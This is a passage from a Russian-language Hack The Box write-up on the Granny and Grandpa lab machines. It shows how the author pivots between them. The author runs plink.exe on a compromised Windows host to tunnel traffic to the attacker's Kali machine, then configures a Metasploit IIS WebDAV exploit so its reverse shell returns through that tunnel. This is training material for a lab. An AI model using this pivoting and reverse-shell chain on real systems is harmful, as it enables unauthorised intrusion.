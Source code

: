 Теперь создадим вспомогательного пользователя `snovvcrash` на своей машине (чтобы не поднимать туннель от имени root), зададим для него пароль `qwe123` и стартуем SSH-сервер.

```
root@kali:~# useradd snovvcrash
root@kali:~# passwd snovvcrash
New password: qwe123
Retype new password: qwe123
passwd: password updated successfully
root@kali:~# service ssh start
```

Еще я лишу этого пользователя возможности выполнять команды, изменив дефолтный шелл на `/bin/false` в файле `/etc/passwd`. Выполнять команды ему не за чем, а вот безопасность схемы от этого только повысится.

[![etc-passwd-edit.png]({{ "/img/htb/boxes/grandparents/etc-passwd-edit.png" | relative_url }})]({{ "/img/htb/boxes/grandparents/etc-passwd-edit.png" | relative_url }})
{: .center-image}

Теперь все готово и можно прокладывать SSH-туннель. Из командной строки Windows я выполню такую команду.

```
C:\Inetpub\wwwroot>plink.exe -l snovvcrash -pw qwe123 -L 10.10.10.15:8888:10.10.14.30:8888 -N 10.10.14.30
```

[![ssh-tunnel-create.png]({{ "/img/htb/boxes/grandparents/ssh-tunnel-create.png" | relative_url }})]({{ "/img/htb/boxes/grandparents/ssh-tunnel-create.png" | relative_url }})
{: .center-image}

Это означает примерно следующее: «Granny, перенаправляй, пожалуйста, все, что поступит в порт `8888` интерфейса `10.10.10.15` по адресу `10.10.14.30:8888` через SSH-туннель». Проверить работоспособность можно с помощью обычного `nc`.

[![ssh-tunnel-check.png]({{ "/img/htb/boxes/grandparents/ssh-tunnel-check.png" | relative_url }})]({{ "/img/htb/boxes/grandparents/ssh-tunnel-check.png" | relative_url }})
{: .center-image}

Обращаю внимание, чтобы не возникло путаницы: туннель был создан с опцией `-L` с хоста Granny, поэтому по отношению к машине атакующего он является «прямым». Если же посмотреть на эту схему со стороны Kali, то туннель логичнее называть «реверсивным».

Теперь наша схема выглядит так.

[![network-pivot-ssh-tunnel.png]({{ "/img/htb/boxes/grandparents/network-pivot-ssh-tunnel.png" | relative_url }})]({{ "/img/htb/boxes/grandparents/network-pivot-ssh-tunnel.png" | relative_url }})
{: .center-image}

### Hack Grandpa!

Все готово, и можно (во второй раз) скомпрометировать систему Grandpa.

Для этого я опять выберу эксплоит `iis_webdav_scstoragepathfromurl`, но в этот раз его настройка будет немного отличаться: на роль машины атакующего (`LHOST`) я назначу хост Granny (`10.10.10.15`), а в роли порта для привязки хендлера (`LPORT`) выступит порт `8888` (через который все будет отправляться на Kali по SSH-туннелю).
